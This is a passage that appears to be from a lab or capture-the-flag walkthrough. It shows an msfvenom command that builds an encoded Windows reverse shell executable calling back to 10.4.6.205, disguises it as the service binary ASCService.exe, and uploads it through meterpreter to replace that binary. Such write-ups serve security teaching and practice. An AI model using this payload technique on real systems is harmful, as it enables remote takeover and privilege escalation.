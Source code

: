 **Use msfvenom to generate a reverse shell as an Windows executable.**

First, we use **msfvenom** to generate the reverse_shell payload as a windows executable file. This can be done with the following command.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.4.6.205 LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```

<img style="float: left;" src="screenshots/screenshot16.png">

We save the output payload as **ASCService.exe** as it is the file that we want to replace.

Next, we upload the file onto the target machine through meterpreter.

<img style="float: left;" src="screenshots/screenshot17.png">

Navigating to the directory, which is writable, we can see the file that we have to replace:

<img style="float: left;" src="screenshots/screenshot18.png">
